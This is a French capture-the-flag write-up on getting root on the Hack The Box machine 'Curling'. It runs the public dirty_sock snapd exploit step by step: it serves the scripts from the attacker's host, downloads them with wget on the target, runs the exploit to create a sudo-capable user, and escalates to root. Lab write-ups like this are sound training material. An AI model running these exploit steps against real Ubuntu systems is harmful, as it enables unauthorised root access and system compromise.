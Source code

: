 # Privesc Curling

Bonsoir à tous, j'ai trouvé un moyen d'être root sur la machine Curling avec un moyen très simple et très efficace et rapidement.
Il y'avais une possiblité d'être root grâce au programme dirty_sock, une vulnérabilité très récente sur les machines Ubuntu en général.

Comment faire pour être root sur la machine Curling ? C'est pas très compliqué regardez les explications ;)

Dirty Sock
----

Vous devez simplement installé l'outil dirty_sock avec git, et ensuite de transférer le script sur la machine cible et d'éxecute le script.

    root@Computer:~/htb/writeup/Curling# git clone https://github.com/initstring/dirty_sock.git
    Clonage dans 'dirty_sock'...
    remote: Enumerating objects: 47, done.
    remote: Counting objects: 100% (47/47), done.
    remote: Compressing objects: 100% (19/19), done.
    remote: Total 47 (delta 26), reused 47 (delta 26), pack-reused 0
    Dépaquetage des objets: 100% (47/47), fait.
    Vérification de la connectivité... fait.

Après avoir installé et cloner ça sur votre machine physique suffis maintenant de transférer le fichier Python sur la machine cible et d'éxecuter le script. Pour le transfert de fichier je vous conseille SimpleHTTPServer.

    root@Computer:~/htb/writeup/Curling# python -m SimpleHTTPServer 9001
    Serving HTTP on 0.0.0.0 port 9001 ...
    
Exécuter premièrement ça sur votre machine physique, et il faut être dans le dossier dirty_sock (important). Une fois la commande tapé il vous suffit d'utiliser la commande wget sur la machine cible et de télécharger les deux scripts.

    floris@curling:/tmp$ wget http://10.10.15.173:9001/dirty_sockv1.py -O dirty_sockv1.py
    [..SNIP...]
    Saving to: ‘dirty_sockv1.py’

    dirty_sockv1.py                          100%[==================================================================================>]   5.37K  --.-KB/s    in 0.001s  

    2019-03-30 20:24:21 (10.1 MB/s) - ‘dirty_sockv1.py’ saved [5501/5501]

    floris@curling:/tmp$ wget http://10.10.15.173:9001/dirty_sockv2.py -O dirty_sockv2.py
    [...SNIP...]
    Saving to: ‘dirty_sockv2.py’

    dirty_sockv2.py                          100%[==================================================================================>]   8.49K  --.-KB/s    in 0s      

    2019-03-30 20:24:39 (109 MB/s) - ‘dirty_sockv2.py’ saved [8696/8696]

    floris@curling:/tmp$
    
Le résultat sur votre machine physique, si nous regardons bien, le fichier a été bien transférer avec sans aucune erreur sur la machine physique.

    10.10.10.150 - - [30/Mar/2019 21:24:21] "GET /dirty_sockv1.py HTTP/1.1" 200 -
    10.10.10.150 - - [30/Mar/2019 21:24:39] "GET /dirty_sockv2.py HTTP/1.1" 200 -
    
Voilà, ensuite vous devez simplement exécuter l'outil dirty_sockv2.py et d'attendre que le programme crée un utilisateur dirty_sock et de vous connectez ensuite avec la commande su.    

    floris@curling:/tmp$ python3 dirty_sockv2.py 

          ___  _ ____ ___ _   _     ____ ____ ____ _  _ 
          |  \ | |__/  |   \_/      [__  |  | |    |_/  
          |__/ | |  \  |    |   ___ ___] |__| |___ | \_ 
                           (version 2)

    //=========[]==========================================\\
    || R&D     || initstring (@init_string)                ||
    || Source  || https://github.com/initstring/dirty_sock ||
    || Details || https://initblog.com/2019/dirty-sock     ||
    \\=========[]==========================================//


    [+] Slipped dirty sock on random socket file: /tmp/zkvlivrbmj;uid=0;
    [+] Binding to socket file...
    [+] Connecting to snapd API...
    [+] Deleting trojan snap (and sleeping 5 seconds)...
    [+] Installing the trojan snap (and sleeping 8 seconds)...
    [+] Deleting trojan snap (and sleeping 5 seconds)...



    ********************
    Success! You can now `su` to the following account and use sudo:
       username: dirty_sock
       password: dirty_sock
    ********************

Vous devez tapé la commande sudo su pour vous connectez en tant que utilisateur (dirty_sock).

    floris@curling:/tmp$ su - dirty_sock
    Password: 
    dirty_sock@curling:~$
    
Une fois que vous avez réussis a vous connectez en tant que dirty_sock vous devez simplement tapé la commande sudo su, et de remettre le mot de passe de l'utilisateur pour vous connectez en tant que root et avoir un accès root sur la machine cible.

    root@curling:/home/dirty_sock# sudo su
    [sudo] password for dirty_sock: 
    root@curling:/home/dirty_sock#

Voilà nous sommes root avec succès.

[![forthebadge made-with-python](https://media1.giphy.com/media/4PSEQpvV5wUpnmpP1l/giphy.gif?cid=790b76115c9fd2056341686e77c521a2)]
